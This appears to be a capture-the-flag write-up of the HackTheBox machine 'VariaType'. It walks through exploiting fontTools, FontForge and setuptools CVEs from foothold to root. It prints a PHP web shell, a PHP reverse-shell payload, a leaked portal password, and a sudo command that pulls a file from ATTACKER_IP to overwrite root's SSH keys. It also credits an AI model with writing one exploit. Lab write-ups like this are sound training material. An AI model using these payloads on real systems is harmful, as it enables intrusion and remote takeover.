






"VariaType" is a medium-rated Linux box on HackTheBox: https://app.hackthebox.com/machines/VariaType?sort_by=created_at&sort_type=desc

# Recon
The first thing I did was ran a standard nmap version scan on the IP address (targeting the most popular 1000 ports): `nmap -sV 10.129.23.65`. This returned an apparent web server and open SSH port:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-01 11:47 EDT
Nmap scan report for 10.129.23.65
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.80 seconds
```

I navigated to the IP address in my browser to find that it was an unresolved domain, variatype.htb. So, I had to manually add this IP and it's associated domain name to my local hosts file:
```bash
10.129.23.65 variatype.htb
```

This is the website I was met with:


The first thing I naturally did was click "Generate your Variable Font," which brought me to an upload site at `/tools/variatype-font-generator`:


My first thought was to try to upload some sort of php reverse shell by simply appending the required .designspace and .ttf extension names to a shell file like `<?php system($_REQUEST["cmd"]); ?>`. I unfortunately was met with "Font generation failed during processing," which I didn't care too much for since the file still could've been uploaded, I just would've needed to find where it was uploaded and have the server execute the payload. Naturally, my next step was to try to find where files were being stored on this server so that, if I could successfully upload a payload, I could find a way to execute it. 

I used ffuf and SecLists wordlists for this task and simply enumerated directories and files. I enumerated the root website directory, /services, /tools, and nothing really turned up. I figured I'd pivot and look for subdomains: `ffuf -u http://variatype.htb -H "Host: FUZZ.variatype.htb" -w subdomains.txt`. I found `portal.variatype.htb`:



I enumerated through the root directory of this site:
```
index.php               [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 52ms]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
auth.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 50ms]
view.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
.                       [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 52ms]
styles.css              [Status: 200, Size: 8789, Words: 1020, Lines: 370, Duration: 51ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 49ms]
```

We may be able to use these files for later. However, I'm more interested in the .git.

I'll go ahead and pull the contents of the git repo using a tool called [git-dumper](https://github.com/arthaud/git-dumper). I need to use `git-dumper` because git itself relies on the git protocol, of which a repo stored as just a folder on a web server is not. I'll add this pulled `.git` to my VariaType working directory, and inspect the repo by running `git log`:

```bash
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

commit 5030e791b764cb2a50fcb3e2279fea9737444870
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:57:57 2025 -0500

    feat: initial portal implementation
```

I can see a master list of diffs by running `git log -p`:
```bash
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

diff --git a/auth.php b/auth.php
index 615e621..b328305 100644
--- a/auth.php
+++ b/auth.php
@@ -1,3 +1,5 @@
 <?php
 session_start();
-$USERS = [];
+$USERS = [
+    'gitbot' => 'G1tB0t_Acc3ss_2025!'
+];

commit 5030e791b764cb2a50fcb3e2279fea9737444870
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:57:57 2025 -0500

    feat: initial portal implementation

diff --git a/auth.php b/auth.php
new file mode 100644
index 0000000..615e621
```

Immediately, a user credential stands out. I'll try this on the recently discovered `portal.variatype.htb`. I'm met with the dashboard:


---

Great, it looks like I can see where files are uploaded! I'll fuzz `portal.variatype.htb` with the new session cookie to see if I can find anything new, or just to be able to browse the files I fuzzed earlier, like `/view.php`:


Once I find a way to upload a file, I'll see how I can pass in a file as an argument to view.php. The main website mentions: "We use the same fonttools engine used by Google Fonts and major foundries." I'm going to just search for vulnerabilities on the internet related to fontTools engine. [CVE-2025-66034](https://nvd.nist.gov/vuln/detail/CVE-2025-66034) is most of the results I get. Specifically, a malicious .designspace file can lead to an arbitrary file write that results in RCE: "The vulnerability affects the main() code path of fontTools.varLib, used by the fonttools varLib CLI and any code that invokes fontTools.varLib.main()" (NIST). I'll use[ this GitHub PoC](https://github.com/v3cn4x00/POC-CVE-2025-66034) written by v3cn4x00 to complete the exploit.
# Foothold
This exploit requires a few non-trivial things. First, we need a "WEBROOT," the filesystem path where output files are written, which the PoC refers to as WEBROOT. Perhaps the comment we found earlier in `styles.css` can give us a clue, so initially I selected `/var/www/dev.variatype.htb/` as the world-writeable path (where our malicious `.php` will be stored). Inspecting an exposed `dashboard.php` revealed a different path, though.

> [!NOTE] Specifying a Web Path
> Our found file, 'dashboard.php' can be downloaded using the `f=` parameter to see the internal PHP. This reveals where our malicious payload can be stored so that it can be executed from the dashboard (what the PoC automates): `/var/www/portal.variatype.htb/public`

The Proof of Concept will inject an XML payload into the .designspace file via a ["CDATA split"](https://cwe.mitre.org/data/definitions/91.html):
```xml
<labelname xml:lang="en"><![CDATA[{php_payload}]]]]><![CDATA[>]]></labelname>
```
...
```python
        php_payload = 
        f'<?php '
        f'$s=fsockopen("{ip}",{port});'
        f'$d=array(0=>$s,1=>$s,2=>$s);'
        f'proc_open("/bin/bash -i",$d,$p);'
        f'?>'
```

and upload it to our set parameter of the upload path `tools/variable-font-generator/process`. Then, it'll execute the uploaded payload by *navigating to the web path* of the portal via the LFI vulnerability, simultaneously opening a listener on a specified port. I then had a primitive shell on the target machine.


# User Privilege Escalation
Reading `/etc/passwd` gave us a list of system users including users that one can actually login with. `steve` stands out.

I didn't find anything related to steve through linpeas enumeration except for a backup file owned by the user which, judging by its header, is our smoking gun for this privesc:
```python
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#
```

It mentions a couple of important things like the extensions that it accepts:
```python
EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)
```

It also tells us the location of the local FontForge binary:
```python
        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
```
which when ran exposes its version number: `Version: 20230101`

---

A Google search for "fontforge 20230101 cve zip" turns up [CVE-2024-25081](https://nvd.nist.gov/vuln/detail/CVE-2024-25081) ,which allows command injection via crafted filenames. It also has a companion CVE-2024-25082.

*[Source](https://access.redhat.com/errata/RHSA-2024:4267)*

> [!NOTE] Two Bugs, Different Contexts!
> While both taking advantage of FontForge's lack of proper filename sanitization, it's CVE-2024-25082 that leverages steve's `process_client_submissions.bak`'s explicit check for archival types, where it references a vulnerability where filenames *inside* an archive are read, rather than 25081's direct filename. Further, it's the regex check in this backup file that prevents CVE-2024-25081 from working, where 25082 allows for easy sidestepping of steve's manual sanitization.

Claude Sonnet 4.6 wrote an excellent proof of concept exploit inspired by [this PoC by Sploitus](https://sploitus.com/exploit?id=1134A0B1-631D-58C1-8B67-4C5C5AC1661E), opting instead for a more direct reverse shell call but passed through base64, unpacked and executed upon its zip extraction. You can view the proof of concept script here: https://gist.github.com/mdunn99/bc6a26775aedb65eb11102adedf87178.

The payload archive generated from this script will be put in `UPLOAD_DIR` (`/var/www/portal.variatype.htb/public/files`).

Assuming that there's a script that acts like `process_client_submissions.bak`, FontForge reads the entry names from archives in `UPLOAD_DIR`, and from their internal metadata constructs a shell command using the contents' filenames without sanitization. "Because `$file` is interpolated directly into a bash double-quoted string, the shell evaluates the $(...) subshell construct in our malicious entry name before FontForge ever attempts to open anything — executing our decoded reverse shell payload." (Claude Sonnet 4.6)
```bash
        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
```

After about a minute, we catch a reverse shell for steve and obtain the flag.
# Root Privilege Escalation
Steve's crontab confirms that his private copy of the backup file, `process_client_submissions.sh` is run every two minutes:
```bash
*/2 * * * * /home/steve/bin/process_client_submissions.sh >/dev/null 2>&1
```

Also, running `diff` on the backup and Steve's bin script show that the exposed backup file is the exact same as the live binary.

---

`sudo -l` ran as `steve` shows that this user can run `/opt/font-tools/install_validator.py` with no password needed. This script explains itself as a way to grab a Python file (with certain requirements) from a URL and put it in `validators`.

```
User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

This script is a "Font Validator Plugin Installer", where plugins at a specified URL are added (with root privileges) to `/opt/font-tools/validators`. I decided to check out the import headers of the `install_validator.py` and their versions using `pip list` to see if there were any easy exploits:
```python
from setuptools.package_index import PackageIndex
...
setuptools         78.1.0
```

Searching for exploits related to PackageIndex in setuptools version 78.1.0 presented an arbitrary file write vulnerability using path traversal: [CVE-2025-47273](https://nvd.nist.gov/vuln/detail/CVE-2025-47273).

This [PoC written by AliElKhatteb](https://github.com/AliElKhatteb/CVE-2025-47273-POC) will take a public key (which can be generated with `ssh-keygen`) renamed as `authorized_keys`and leverage the script's ability to pull from any file server and place it in `root`'s `.ssh` directory so that `root` ssh can be authenticated with the private key generated on the target machine:
```bash
sudo python3 /path/to/vulnerable_script.py \
  "http://${ATTACKER_IP}/%2f${TARGET_USER}%2f.ssh%2fauthorized_keys#egg=evil-1.0"
```

`root` UID was then established on the target machine and the flag was obtained.